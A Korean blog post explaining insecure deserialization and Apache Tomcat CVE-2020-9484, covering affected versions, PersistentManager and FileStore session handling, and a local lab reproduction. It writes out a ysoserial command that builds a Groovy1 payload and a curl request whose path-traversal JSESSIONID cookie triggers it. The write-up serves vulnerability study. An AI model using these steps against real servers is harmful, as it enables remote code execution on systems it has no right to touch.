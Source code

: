 ```yaml
---
title: "CVE-2020-9484 (Apache Tomcat Remote Code Execution Vulnerability)"
toc: true
toc_sticky: true
toc_label: "목차"
categories:
  - Hack
tags:
  - web
  - RCE
  - vulnerability
  - CVE
last_modified_at: 2020-06-17T16:51:00+09:00
---
```

**Insecure Deserialization (안전하지 않은 역직렬화)**

**OWASP TOP 10**에 등재된 **Deserialization** 공격에 대해 정리하려고 합니다.

이번에 발행된 **CVE-2020-9484**를 예를 들어서 포스팅을 작성하였습니다.

---

# 직렬화와 역직렬화

## 개요

- 직렬화 : 특정 Class의 현재 인스턴스 상태를 다른 서버로 전달 하기 위해 <br>Byte Code로 복사하는 작업, 직렬화(Serialization)

- 역직렬화 : 저장된 파일에서 Byte Code를 읽거나 전송된 스트림 데이터를 읽어 <br>특정 Class의 인스턴스 형태로 복원하는 것, 역직렬화 (Deserialization)

## Serialization / Deserialization의 제약사항

데이터 Deserialization 과정에서 원격코드 실행이나 권한 상승 취약점들이 발생할 수 있다.

1. 데이터를 처리하는 곳 모두 ClassPath안에 전달된 객체에 대한 Library 가지고 있어야함
2. 전송할 인스턴스는 Java.io.Serializable을 implement해야함 <br>(즉, 직렬화가 불가능한 인스턴스를 포함하면 안됨)
3. transient field 인스턴스는 정보가 전달 되지 않음
4. Serialization / Deserialization 는 기 생성된 인스턴스의 복사만 가능하여 <br>Constructor가 실행되지 않음

---

# CVE-2020-9484 <br> (Apache Tomcat Remote Code Execution Vulnerability)

## 영향받는 버전 및 요구사항

```
- Apache Tomcat 10.x < 10.0.0-M5
- Apache Tomcat 9.x < 9.0.35
- Apache Tomcat 8.x < 8.5.55
- Apache Tomcat 7.x < 7.0.104

- PersistentManger 활성화, FileStore 사용중
- Deserialization 공격 파일 업로드 가능, 업로드 경로 확인 가능
```

## 왜 세션인가?

Tomcat은 Session management 방법을 2가지 제공하고 있습니다.

- org.apache.catalina.session.StandardManager (default)

- org.apache.catalina.session.PersistentManager

StandarManager는 구동중에는 메모리에 저장하고 있다가 종료시 session을 <br>Serialized 된 데이터를 disk에 저장합니다 ( default로 SESSIONS.ser )

PersistentManager는 동일하나 메모리 관리를 위해 session이 일정 시간 동안 <br>사용 되지 않으면 데이터를 disk에 저장합니다.

여기서 2개 옵션을 사용 할 수 있는데 FileStore와 JDBCStore 입니다.

FileStore는 session을 disk에 저장하는데 sessionID를 파일이름으로 사용합니다.

JDBCStore는 DB에 데이터를 저장합니다.

## FileStore

따라서 FileStore를 사용하게 되면 아래 코드와 같이 directory + sessionID + '.session'인<br>파일에서 데이터를 불러오게 됩니다.

[FileStore Github code](https://github.com/dpzain/apache-tomcat-9.0.24/blob/b7b63b843c7978ee6733964b02f232563f9b427c/java/org/apache/catalina/session/FileStore.java)

```java
/**
     * Return a File object representing the pathname to our
     * session persistence file, if any.
     *
     * @param id The ID of the Session to be retrieved. This is
     *    used in the file naming.
     */
    private File file(String id) throws IOException {
        if (this.directory == null) {
            return null;
        }
        String filename = id + FILE_EXT;
        File file = new File(directory(), filename);
        return file;
    }
```

## context.xml in tomcat conf

context.xml에서 FileStore가 사용중인 directory를 확인합니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```

---

# 취약점 테스트

[masahiro331 Github](https://github.com/masahiro331/CVE-2020-9484.git)에 구성된 환경으로 테스트를 진행했습니다.

[ysoserial](https://github.com/frohoff/ysoserial)

<img src='{{ "/assets/images/web/web_cve_2020_9484_1.png" | absolute_url }}'>

공격을 위해 ysoserial에서 해당 서버 환경에 맞는 Serialized된 bytecode를 생성합니다.

```
$ java -jar ysoserial.jar Groovy1 'touch /tmp/rce' > groovy.session
```

<img src='{{ "/assets/images/web/web_cve_2020_9484_2.png" | absolute_url }}'>

서버 내 공격코드 파일 (groovy.session)의 위치를 확인합니다.

```
root@e340adc43b93:/usr/local/tomcat# ls
BUILDING.txt	 LICENSE  README.md	 RUNNING.txt  conf	      include  logs	       temp	webapps.dist
CONTRIBUTING.md  NOTICE   RELEASE-NOTES  bin	      groovy.session  lib      native-jni-lib  webapps	work
```

---

**공격 코드 실행**

```
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../usr/local/tomcat/groovy'
```

<img src='{{ "/assets/images/web/web_cve_2020_9484_3.png" | absolute_url }}'>

---

# 참고자료

0. BLOG

<https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/>

<https://github.com/masahiro331/CVE-2020-9484>

<https://github.com/frohoff/ysoserial>